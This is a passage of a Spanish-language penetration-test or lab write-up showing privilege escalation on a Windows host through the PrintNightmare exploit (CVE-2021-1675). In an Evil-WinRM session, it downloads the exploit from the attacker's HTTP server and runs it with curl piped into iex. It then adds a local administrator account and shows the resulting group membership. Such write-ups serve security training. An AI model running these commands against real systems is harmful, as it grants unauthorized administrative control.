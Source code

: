 - Vamos a subirlo de otra forma.

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Lo que podemos hacer es descargarlo con `curl` y usar `iex` o `Invoke-Expression` además de usar el parámetro `-UseBasicParsing` que se utiliza con el `cmdlet` `Invoke-WebReques`t en `Porwershell`.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> curl 10.10.14.19:80/CVE-2021-1675.ps1 -UseBasicParsing | iex
```

- Ahora vamos añadir nuestro usuario `Administrador`.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser migue
lito -NewPassword miguel123
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user miguelito as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

- Ahora comprobamos que el usuario forme parte del grupo `Administrators` para poder conectarnos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> net user miguelito
User name                    miguelito
Full Name                    miguelito
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/3/2024 2:06:36 AM
Password expires             Never
Password changeable          4/3/2024 2:06:36 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
